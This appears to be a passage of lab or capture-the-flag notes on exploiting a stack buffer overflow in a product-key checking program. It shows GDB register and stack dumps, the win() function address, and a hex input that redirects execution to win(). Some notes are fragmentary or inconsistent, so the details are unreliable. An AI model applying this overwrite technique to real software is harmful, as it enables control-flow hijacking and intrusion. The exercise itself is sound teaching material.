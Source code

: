 ```bash
(gdb) info registers
eax            0xffffd8e7	-10009
ecx            0xffffdc20	-9184
edx            0xffffd8e7	-10009
ebx            0x56558000	1448443904
esp            0xffffd8e0	0xffffd8e0
ebp            0xffffd908	0xffffd908
esi            0xffffdce0	-8992
edi            0xf7fbd000	-134492160
eip            0x56555805	0x56555805 
eflags         0x282	[ SF IF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x63	99
```

```bash
(gdb) x/40x $esp
0xffffd8e0:	0xffffdce0	0x41fbd000	0x45444342	0x49484746
0xffffd8f0:	0xf7fb004a	0x56555f78	0xffffd918	0xf7e90ef0
0xffffd900:	0xffffdc20	0x56558000	0xffffdcc8	0x56555cd3
0xffffd910:	0xffffdc20	0xffffdc20	0xffffda2c	0x5655588e
0xffffd920:	0x434241b0	0x47464544	0x004a4948	0xf7fe5f92
0xffffd930:	0x00000000	0x00000000	0x00000000	0x00000003
0xffffd940:	0x00554e47	0x2861f718	0x00000000	0xf7fe8304
0xffffd950:	0xffffdb98	0x00000000	0xf7fd9a75	0xf7fe1f60
0xffffd960:	0xf7e1d2e5	0xf7fd9637	0x00000000	0xf7ffd858
0xffffd970:	0x00000000	0xffffdb94	0xffffdb90	0x0d696910
```

```bash
(gdb) next 6
Single stepping until exit from function __libc_start_main,
which has no line number information.

Received product key: ABCDEFGHIJ

You may be the victim of software piracy!
[Inferior 1 (process 5958) exited with code 053]
```

`ebp` is at `0xffffd908`

`eip` 

`win()` is at address `0x5655580f` 

Pad the input with 75 characters and send `4142434445464748494a4b4c4d4e4f505152535455565758595a5b5c5d5e5f6061626364650f585556`

```bash
(gdb) run
win address: 0x5655580f

Breakpoint 1, activate (str=0xffffdc00 "\311\037\376\367") at ED202.8b.c:9
9	    return 1;
```
